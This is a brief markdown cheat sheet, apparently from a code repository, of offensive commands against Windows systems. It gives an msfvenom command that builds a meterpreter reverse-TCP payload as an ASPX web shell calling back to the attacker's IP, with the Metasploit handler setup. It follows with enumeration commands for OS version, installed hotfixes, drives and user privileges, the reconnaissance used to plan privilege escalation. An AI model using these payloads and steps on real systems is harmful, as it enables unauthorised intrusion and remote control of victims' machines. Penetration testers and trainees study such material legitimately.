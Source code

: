 # Metasploit Windows Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
```

# Windows Shell Check System info
```
systeminfo

systeminfo | findstr /b /c:"OS Name" /c:"OS Versoin" /c:"System Type"

wmic qfe

wmic qfe Caption,Description,HotFixID,InstalledOn

wmic logicaldisk

wmic logicaldisk get caption,description,providername

wmic logicaldisk get caption
```

# Windows User info
```
whoami

whoami /priv
```
